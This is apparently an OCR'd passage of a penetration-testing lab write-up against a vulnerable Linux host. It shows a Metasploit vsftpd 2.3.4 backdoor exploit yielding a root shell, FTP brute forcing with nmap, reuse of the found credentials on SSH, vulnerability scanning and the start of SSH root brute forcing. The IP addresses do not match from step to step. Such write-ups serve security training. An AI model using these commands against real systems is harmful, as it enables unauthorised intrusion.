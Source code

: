 msf exploit(vsftpd_234_backdoor) > run

[*] Banner: 220 (vsFTPd 2.3.4)

[*] USER: 331 Please specify the password.

[+] Backdoor service has been spawned, handling...

[+] UID: uid=0(root) gid=0(root)

[*] Found shell.

[*] Command shell session 11 opened (192.168.0.13:47287 -> 192.168.0.14:6200) at 2015-06-14 19:04:19 -0600

id

uid=0(root) gid=0(root)

  
also assuming that the service was not vulnarble there is a weak credinitial could be obtained from brute frocing

nmap <tagetip> 21 --script =ftp-brute.nse

took 600s to find valid credential of user:user 

 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----
trying the same credentials of fttp for ssh it works :D 

  now we can execute files on the machine  with limited privilage 
 
 get step back and use nmap script engine for intensive scanning for port22
 
 nmap -sV -sC 192.168.1.3 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortunately there are no proof of concept or working exploit available online also there are no Metasploit module for them
 
 so I've moved to another approached " brute forcing the service for root credentials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
 
RHOSTS => 192.168.1.3
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 